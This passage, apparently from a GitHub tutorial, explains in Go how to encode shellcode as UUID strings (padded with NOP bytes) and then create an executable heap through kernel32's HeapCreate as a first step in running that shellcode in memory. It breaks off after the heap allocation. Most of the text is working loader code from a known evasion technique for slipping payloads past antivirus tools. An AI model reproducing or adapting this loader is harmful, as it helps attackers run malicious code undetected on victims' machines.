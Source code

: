 ```go
```

Before allocating any memory we should convert our shellcode to `UUID`

```go
...

// Check shellcode length to add some zero
if 16 - len(shellcode) %16 < 16 {
  pad := bytes.Repeat([]byte{byte(0x90)}, 16-len(shellcode)%16)
  shellcode = append(shellcode, pad...)
}

var uuids []string
for i := 0; i < len(shellcode); i += 16 {
  var uuidBytes []byte

  buf := make([]byte, 4)
  binary.LittleEndian.PutUint32(buf, binary.BigEndian.Uint32(shellcode[i:i+4]))
  uuidBytes = append(uuidBytes, buf...)

  buf = make([]byte, 2)
  binary.LittleEndian.PutUint16(buf, binary.BigEndian.Uint16(shellcode[i+4:i+6]))
  uuidBytes = append(uuidBytes, buf...)

  buf = make([]byte, 2)
  binary.LittleEndian.PutUint16(buf, binary.BigEndian.Uint16(shellcode[i+6:i+8]))
  uuidBytes = append(uuidBytes, buf...)

  uuidBytes = append(uuidBytes, shellcode[i+8:i+16]...)

  // Use official Google package to convert bytes to uuid
  u, err := uuid.FromBytes(uuidBytes)
  if err != nil {
    log.Fatal(fmt.Errorf("there was an error converting bytes into a UUID:\n%s", err))
  }

  uuids = append(uuids, u.String())
}

...
```

Once we have converted the shellcode to UUIDs we start creating a **heap** and allocating memory:

```go
...

// Import DLL
kernel32 := windows.NewLazyDLL("kernel32")

// Get functions from kernel32.dll
HeapCreate := kernel32.NewProc("HeapCreate")
HeapAlloc := kernel32.NewProc("HeapAlloc")

// Create heap
heapAddr, _, err := HeapCreate.Call(
  0x00040000,
  0,
  0,
)

if heapAddr == 0 { // Handle error
  log.Fatal(err)
}
```